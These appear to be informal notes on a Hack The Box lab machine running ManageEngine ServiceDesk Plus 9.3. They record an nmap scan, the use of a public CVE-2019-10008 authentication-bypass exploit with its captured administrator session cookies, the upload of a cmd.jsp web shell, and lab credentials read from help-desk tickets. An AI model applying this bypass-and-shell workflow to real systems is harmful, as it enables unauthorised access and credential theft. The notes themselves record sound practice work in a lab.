



nmap revealed ports 8080 135,445 smb. port 8080 is hosting manageEngine serviceDesk plus version 9,3 which is vulnerable to a suer enumeration techqniue. 

```
# Nmap 7.70 scan initiated Sun May 12 14:00:25 2019 as: nmap -sC -sV -Pn -p135,445,8080 -oA nmap/totaly 10.10.10.132
Nmap scan report for helpline.htb (10.10.10.132)                                          
Host is up.

PORT     STATE    SERVICE      VERSION
135/tcp  filtered msrpc
445/tcp  filtered microsoft-ds
8080/tcp filtered http-proxy
```

```

```

the site has two differn't login portals one for your typical browser the toher for mobile logins. apparently when you login in through the browser portal it will automatically log you in from the mobile site. 

LuisRibeiro

administrator

the method described in 46*.txt doesn't work but i can see a user being logged in just going to the mobile app and logging in is bad xD. 

```
searchsploit manageengine
```

so after using searchsploit we find a a clue to a python exploit that takes advantage a cookie juggling xD im not sure if this is written in php. same thing.  Just need to change the host varliable. 

CVE-2019-10008

https://github.com/FlameOfIgnis/CVE-2019-10008

now i need away to get remote execution. 

http://flameofignis.com/2019/03/30/ServiceDesk-9-3-Auth-Bypass-CVE-2019-10008/

CVE-2019-10273 


1 ) i would like to note that most likely 

```
 Please can you set up the FTP connection for AFB bank
 response :		FTP access has been set up for Alpha First Bank.

Please send them the details below:

alphafirst
BWtwhrC65c
```

```
from : stephen ellis
to: 
I'm working from home today and my MegaBank Remote login isn't working. I think my password expired over the weekend, please can you reset it to Megabank1

Thanks!
```

```
stephen ellis password expired on megabank 
mary wong
fiona drake
anne sergeant
luis ribeiro
```

some idea's at this point in the ticket system the attachment's may not work for x reason. they may also work. If i cannot rce, then it might be password reuse and ill gain access to smb. also i have not scanned udp yet. 

there didn't seem to be a problem when i upload the cmd.jsp shell. just check and make sure they are being uploaded. like most of the machine

so a guy doing the box found a 0-day. pretty ballar, appartently there is a juggling thing going on where the cookies mean the samething. 

```
Url: http://10.10.10.132:8080                                                             
User with low priv: guest:guest                                                           
User to bypass authentication to: administrator                                           
Getting a session id
Sessid:                                                                                   
D935001021F1303BDA00F14A2D79E2FA                                                          
Logging in with low privilege user                                                        
Captured authenticated cookies.                                                           
BED8DBC955275BF232F42042613E823C                                                          
8D483E6AB9D79DC4368A73F4150F4E2E                                                          
Captured secondary sessid.                                                                
2D2A2F6084D86023C5DD3D0FE6D7C6B9                                                          
Doing the magic step 1.                                                                   
Doing the magic step 2.
Captured target session.Set following cookies on your browser.                            
JSESSIONID=3492E78EBD38D6780D891236F66E8CFE
JSESSIONIDSSO=07E42AD2A6F7FD7E17921038D6596248                                            
febbc30d=1e24dbd550de40abbfd60ee6b85b309a                                                 
mesdp6d8a1036e4=d26725ef1d8f9e70a64d30c09dba0cd0d0cea6de                                  
_rem=true 
```

after logging intot he admin console i went to user>requesters and found the login names. the first name of the usrs lol.


you will notice under the login name column we see the usernames. we also see the employee id number which would be useful in a real sinario. 



stephen



hmmm. 

i think we should check for subdomains real quick just to make sure using wfuzz. 

